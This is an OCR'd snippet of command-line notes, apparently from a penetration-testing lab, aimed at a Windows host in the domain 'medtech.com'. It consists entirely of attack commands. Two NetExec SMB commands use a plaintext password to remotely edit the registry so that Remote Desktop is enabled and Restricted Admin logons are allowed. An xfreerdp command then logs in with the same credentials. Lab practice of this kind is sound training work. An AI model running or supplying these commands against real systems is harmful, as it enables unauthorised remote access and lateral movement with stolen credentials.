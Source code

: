 nxc smb 172.16.177.11 -u joe -p 'Flowers1' -d medtech.com -x 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'


nxc smb 172.16.177.11 -u joe -p 'Flowers1' -d medtech.com -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'        

xfreerdp /v:172.16.177.11 /u:joe /p:Flowers1 /cert-ignore /timeout:60000 /d:medtech.com
